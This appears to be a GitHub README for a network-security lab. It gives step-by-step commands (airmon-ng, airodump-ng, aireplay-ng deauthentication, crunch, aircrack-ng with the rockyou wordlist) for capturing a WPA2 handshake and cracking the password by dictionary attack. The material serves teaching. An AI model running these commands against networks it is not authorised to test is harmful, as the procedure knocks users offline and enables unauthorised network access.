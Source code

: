 # Crack WPA2 Password
## How WPA2 works

TO DO


# Read WiFi Network Interface Data

 1. Authenticate a superuser
 2. Execute `iw` command in order to find and manipulate your wireless devices and their configuration 
```
sudo su 
iw dev
```
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WPA/1.%20iw%20dev.png?raw=true)

# Start cracking

 * The first thing we have to do is to set our network card in *monitor mode* which allows to monitor all traffic received on a wireless channel
    * `airmon-ng start <INTERFACE_NAME>`
 * Check again your network wireless card name using `iw dev` command
     * `iw dev`
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WPA/2.%20iw%20dev.png?raw=true)
 * Let's now start `airodump-ng` in order to obtain some useful information about `AP Name`, `Channel` and `BSSID`
    * `airodump-ng <INTERFACE_NAME_MONITOR_MODE>`
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WPA/3.%20airodump-ng.png?raw=true)
 * We can now start capturing some data using (again) `airodump-ng` command
   * `airodump-ng -c <NUM_CHANNEL> --bssid <AP_MAC_ADDRESS> -w <OUTPUT_FILE_CAPTURE> <INTERFACE_NAME_MONITOR_MODE>`
 * Our goal is to capture the **WPA2 handshake**. To do that, we try to de-authenticate all hosts connected to the AP using the `aireplay-ng` command; finally, we need to wait until at least one host will  auto reconnect to the AP
   * `aireplay-ng -0 2 -a <AP_MAC_ADDRESS> <INTERFACE_NAME_MONITOR_MODE>`
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WPA/4.%20airodump-ng%20capture.png?raw=true)

 * Once the WPA2 handshake has been captured, we can start hacking the password 
v


## Bruteforce attack using dictionaries
One of the things that we will try out with breaking through WPA and WPA2, is by using a dictionary attack. Dictionary attack is a technique to break through an authentication mechanism by trying to figure out it’s decryption key or passphrase by trying out hundreds, thousands or even billions of likely possibilities. Most vulnerable victims of this attacks are Wi-Fi’s that have their password set to something simple, such as `cat`, `dog`, `airplane`, `football` and so on - like the words in a dictionary

### Create a dictionary using `cruch` tool
One of the possibility is to self create a dictionary using some CLI tools. `cruch` allows us to create dictionaries specifying many parameters such as `min` and `max` password length, `charset` and even `patterns`
 * `crunch <min_lenght> <max_lenght> charset [-t <pattern> ] -o dictionary.txt`

For example, in order to create a dictionary containing all the words from 5 to 8 chars only in lowercase, we can execute the following command
 * `crunch 5 8 qwertyuiopasdfghjklzxcvbnm -o dictionary.txt`

In our exercises, we will use some dictionaries which can be downloaded from the Iternet. The first one is called `john dictionary` whereas the second one is called `rockyou dictionary`
 1. `sudo su`
 2. `sudo apt install john`
 3. `mkdir /usr/share/rockyou`
 4. `cd /usr/share/rockyou`
 5. `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`

After that, the dictionaries can be found in the `/usr/share/john` and `/usr/share/rockyou` folders, respectively.

## Start the bruteforce attack
We can now start the bruteforce attack. We suggest to use `john` and/or `rockyou` dictionary to complete the exercise before the end of the laboratory session

 * `aircrack-ng -w <YOUR_DICTIONARY_FILE> <OUTPUT_FILE_CAPTURE>.cap`

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WPA/5.%20bruteforce.png?raw=true)

## Stop Monitor Mode

Remember to disable the **monitor mode** from your wireless network card
 * `airmon-ng stop <INTERFACE_NAME>`